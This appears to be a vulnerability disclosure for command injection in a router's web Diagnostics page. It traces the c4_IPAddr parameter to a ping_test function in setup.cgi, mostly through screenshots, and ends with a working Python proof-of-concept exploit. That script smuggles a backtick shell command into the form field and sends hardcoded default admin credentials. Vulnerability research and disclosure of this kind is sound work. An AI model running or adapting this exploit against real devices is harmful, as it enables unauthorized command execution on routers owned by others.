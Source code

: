 ## Command injection exists on the Diagnostics page of web
## ![1721830818130.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830823860-f5b57545-c9d4-455a-9471-c041145deb90.png#averageHue=%23fbfafa&clientId=u2f508ae5-ad4e-4&from=paste&height=667&id=u6ad3a6b3&originHeight=817&originWidth=1959&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=178745&status=done&style=none&taskId=u2dc9df19-997d-4ab1-8f0f-59567da8a1d&title=&width=1599.85)Parameters discovered by capturing packets are passed as c4_IPAddr
![1721830893722.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830898585-93b51d16-5c9b-43cd-8c62-e6760b1bfc30.png#averageHue=%23f6f5f4&clientId=u2f508ae5-ad4e-4&from=paste&height=481&id=u9a9dc098&originHeight=589&originWidth=1511&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=180889&status=done&style=none&taskId=u191977f1-3747-4a61-bd28-5b554321602&title=&width=1233.9833333333333)
## grep -r "c4_IPAddr"
## The string c4_IPAddr was found in the binary file setup.cgi
## ![1721830988983.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830993358-8ed1a10d-12ff-4ab6-980c-67520114154f.png#averageHue=%232f0b25&clientId=u2f508ae5-ad4e-4&from=paste&height=147&id=uc384f1dc&originHeight=180&originWidth=989&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=54506&status=done&style=none&taskId=u7fd9f142-063c-4b91-9664-aa55c9febd3&title=&width=807.6833333333333)c4_IPAddr found in IDA
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831173391-424fccd7-17bf-4aa3-af43-c74c3ee326a7.png#averageHue=%23f6f4f2&clientId=u2f508ae5-ad4e-4&from=paste&height=81&id=u127d49b3&originHeight=99&originWidth=492&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=7500&status=done&style=none&taskId=uadf28c54-c85f-487b-8f09-f0d4a58bc1a&title=&width=401.8)![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831178917-d7207407-09fe-433a-8801-17e72bd999bb.png#averageHue=%23e1b872&clientId=u2f508ae5-ad4e-4&from=paste&height=245&id=u7b48214b&originHeight=300&originWidth=1074&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=68847&status=done&style=none&taskId=ue6fadf4e-694e-480d-8a4d-bafb5175091&title=&width=877.1)Locate the ping_test function
## Found only filtered;
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831709526-010cc455-1465-4b99-9aaf-6c41f38ce04e.png#averageHue=%23fbf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=357&id=u048c6c59&originHeight=437&originWidth=723&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=45688&status=done&style=none&taskId=uee7d6df5-a244-4082-8537-6bba71a4186&title=&width=590.4499999999999)
## Construct exp
## ![1721831347990.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831355775-8653b8c6-35bb-40e5-a7df-b4247154883b.png#averageHue=%23faf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=865&id=u13a39b91&originHeight=1059&originWidth=945&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=135712&status=done&style=none&taskId=u53475e1f-a6b3-4cab-8158-c5002861fbb&title=&width=771.75)Description Directory nop was successfully written
## ![1721831375064.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831382760-a39f9648-4617-4181-bc1e-547f21f62775.png#averageHue=%232d0923&clientId=u2f508ae5-ad4e-4&from=paste&height=185&id=u11c37f75&originHeight=227&originWidth=670&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=29346&status=done&style=none&taskId=u701b1eff-7b45-4d37-820e-d11399feb68&title=&width=547.1666666666666)
exp
import requests

burp0_url = "[http://192.168.0.1:80/setup.cgi"](http://192.168.0.1:80/setup.cgi")
burp0_headers = {"Cache-Control": "max-age=0", "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "[http://192.168.0.1/diag.htm&todo=cfg_init",](http://192.168.0.1/diag.htm&todo=cfg_init",) "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_data = {"IPAddr1": "192", "IPAddr2": "168", "IPAddr3": "0", "IPAddr4": "2", "ping": "Ping", "todo": "ping_test", "this_file": "diag.htm", "next_file": "diagping.htm", "c4_IPAddr": "192.168.0.2`echo 2 > /tmp/nop`"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

